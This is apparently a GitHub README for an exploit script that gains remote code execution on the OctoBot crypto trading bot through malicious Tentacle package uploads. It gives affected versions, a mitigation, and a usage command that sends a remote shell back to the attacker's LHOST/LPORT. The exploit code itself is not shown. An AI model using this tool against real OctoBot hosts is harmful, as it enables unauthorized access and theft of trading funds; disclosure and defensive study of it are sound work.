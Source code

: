 
# Sashimi Evil OctoBot Tentacle

Sashimi Evil OctoBot Tentacle is a python script that exploits a vulnerability that lies in the Tentacles upload functionality of the cryptocurrency trading bot [OctoBot](https://octobot.online/) which is designed to be easy to use and customizable. Indeed, this open source trading bot has the particularity of offering to theirs users the possibility to upload their own trading algorithms.

Sashimi Evil OctoBot Tentacle takes advantage of this feature to upload a malicious crafted package that leads to an arbitrary code execution.

![Sahimi Evil OctoBot Tentacle](https://i.ibb.co/M26vLMM/Sashimi-octobot-killer.png)

### Affected versions
All OctoBot  versions until the latest version (0.4.0b12) are vulnerable.
However, this exploit will work from version 0.4.0b3 until version 0.4.0b12.

### Proof of concept
(PoC Tested on Octobot 0.4.0b10)

[![Video POC Sashimi OctoBot Vulnerability](https://i.ibb.co/7gXHL9q/500px-youtube-social-play.png)](https://www.youtube.com/watch?v=okL0azY1BE4)


### Requirement

* Python 3 (Must already have it if you are OctoBot user :D)
* An OctoBot target host platform. 

### How to use
This script is very simple to use only needs 4 parameters.
* `--RHOST`:  Refers to the IP of the target machine. (OctoBot IP address or hostname)
* `--RPORT`: Refers to the PORT of the target machine. (OctoBot use the port 5001 by default)
* `--LHOST` : Refers to the IP of your machine. (Can be local or external, depend who you are targeting :)
* `--LPORT`: Refers to the open port of your machine. (Must have an open port on your machine.)

Then the command is as follow:
```bash
python3 sashimi.py --RHOST TARGET_IP --RPORT TARGET_PORT --LHOST YOUR_IP --LPORT YOUR_OPEN_PORT
```
Be patient for around 3 min, the time to download, create and upload the malicious Tentacle package, and you should have a remote access to the machine. That's it!

### Mitigation
To protect against this attack, set a password in your OctoBot platform or add an .htpasswd.

### Note
FOR EDUCATIONAL PURPOSE ONLY.